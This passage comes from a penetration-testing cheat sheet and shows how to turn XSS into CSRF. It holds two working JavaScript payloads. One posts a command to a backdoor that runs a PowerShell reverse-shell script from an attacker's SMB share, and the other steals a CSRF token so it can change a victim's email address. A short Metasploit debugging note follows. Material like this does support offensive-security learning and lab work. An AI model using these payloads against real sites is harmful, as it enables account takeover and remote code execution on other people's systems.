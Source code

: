 * [www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)


#### XSS to CSRF

If the endpoint is accessible only from localhost:

```javascript
<script>
var xhr;
if (window.XMLHttpRequest) {
	xhr = new XMLHttpRequest();
} else {
	xhr = new ActiveXObject("Microsoft.XMLHTTP");
}
xhr.open("POST", "/backdoor.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("cmd=powershell -nop -exec bypass -f  \\\\10.10.15.123\\share\\rev.ps1");
</script>
```

With capturing CSRF token first:

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('GET', '/email', true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('POST', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=test@example.com')
};
</script>
```

* [portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)




## Metasploit



### Debug

```
root@kali:$ gem install pry-byebug
root@kali:$ vi ~/.pry-byebug
...
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)